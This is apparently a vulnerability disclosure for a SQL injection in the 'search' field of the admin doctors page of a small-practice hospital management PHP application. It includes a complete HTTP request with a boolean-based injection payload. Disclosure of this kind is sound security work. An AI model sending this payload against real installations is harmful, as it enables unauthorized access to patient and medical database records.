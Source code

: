 **BUG_Author:**

Rone

**Vendor:**

[SourceCodester](https://vuldb.com/?vendor.sourcecodester)

**Software:**

[Free Hospital Management System for Small Practices | SourceCodester](https://www.sourcecodester.com/php/16720/free-hospital-management-system-small-practices.html)

**Vulnerability File:**

/vm/admin/doctors.php

**Description:**

Attackers can use SQL injection to bypass the authentication and authorization mechanisms of web applications and retrieve the content of the entire database. SQLi can also be used to add, modify, and delete records in a database, thereby affecting data integrity. In appropriate cases, attackers can also use SQLi to execute operating system commands, which can then be used to launch further attacks.

```
POST /VaidyaMitra/vm/admin/doctors.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://127.0.0.1/VaidyaMitra/vm/admin/index.php
Cookie: PHPSESSID=n0c7sjh2imuq8hk5htgeb3e795
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
Content-Length: 55
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4512.0 Safari/537.36
Host: 127.0.0.1
Connection: Keep-alive

search=-1' OR 3*2*1=6 and 1=1 --+
```

![image-20231015172710460](https://github.com/GodRone/Hospital-Management-System_SQL-injection/blob/main/Hospital%20Management%20System_SQL%20injection.assets/image-20231015172657173.png)

![image-20231015172657173](https://github.com/GodRone/Hospital-Management-System_SQL-injection/blob/main/Hospital%20Management%20System_SQL%20injection.assets/image-20231015172710460.png
)

![image-20231015174534821](https://github.com/GodRone/Hospital-Management-System_SQL-injection/blob/main/Hospital%20Management%20System_SQL%20injection.assets/image-20231015174534821.png)















